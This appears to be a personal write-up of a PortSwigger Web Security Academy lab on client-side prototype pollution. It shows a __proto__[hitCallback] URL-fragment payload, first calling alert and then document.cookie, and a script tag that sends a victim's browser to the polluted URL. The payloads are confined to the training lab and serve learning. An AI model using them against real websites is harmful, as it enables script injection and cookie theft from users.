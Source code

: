 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-3/"}
---
```



---

## Objective: Get document.cookie

### Automatic method

In this lab, we are recommended to use DOM Invader as it saves us time and effort. First just use it like the same open the browser and the extension

![Pasted image 20250330233647.png](/img/user/Images/Pasted%20image%2020250330233647.png)

![Pasted image 20250330233836.png](/img/user/Images/Pasted%20image%2020250330233836.png)

And we get the alert here after exploiting the exploiting the gadget which is `hitCallback`

![Pasted image 20250331001017.png](/img/user/Images/Pasted%20image%2020250331001017.png)

Here is the generated payload that calls an alert

```
/#__proto__[hitCallback]=alert%281%29
```

Now, the objective is to steal the cookie, Portswigger already mad a server for which we can deliver the payload

![Pasted image 20250331001211.png](/img/user/Images/Pasted%20image%2020250331001211.png)

We craft the exploit with `<script>` tags in the body with the `location` reference being our payload 

```
<script>
    location="https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%281%29"
</script>
```

But the payload is URL-encoded, we can check using Cyberchef

![Pasted image 20250331001409.png](/img/user/Images/Pasted%20image%2020250331001409.png)

### Exploit

Only change the alert to a `document.cookie` and the exploit is set.

```
https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29
```
